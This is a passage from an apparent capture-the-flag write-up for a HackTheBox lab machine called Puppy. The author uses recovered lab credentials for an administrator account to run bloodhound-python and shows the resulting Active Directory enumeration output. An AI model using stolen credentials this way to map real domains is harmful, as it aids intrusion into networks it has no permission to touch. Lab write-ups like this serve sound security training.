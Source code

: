 New credentials aree retrieveed <3

steph.cooper_adm/FivethChipOnItsWay2025!

Like always first thing to do is upload the bloodhound data using the new creds we got

```bash
└─$ bloodhound-python -u steph.cooper_adm -p 'FivethChipOnItsWay2025!' -dc puppy.htb -ns 10.10.11.70 -d puppy.htb -c all 
INFO: Found AD domain: puppy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: puppy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: puppy.htb
INFO: Found 10 users
INFO: Found 56 groups
INFO: Found 3 gpos
INFO: Found 3 ous
INFO: Found 21 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.PUPPY.HTB
INFO: Done in 00M 49S
```

Guess what ? I think we found a goldmine here!!

![Description](/assets/images/Puppy/Screenshot_6.png)
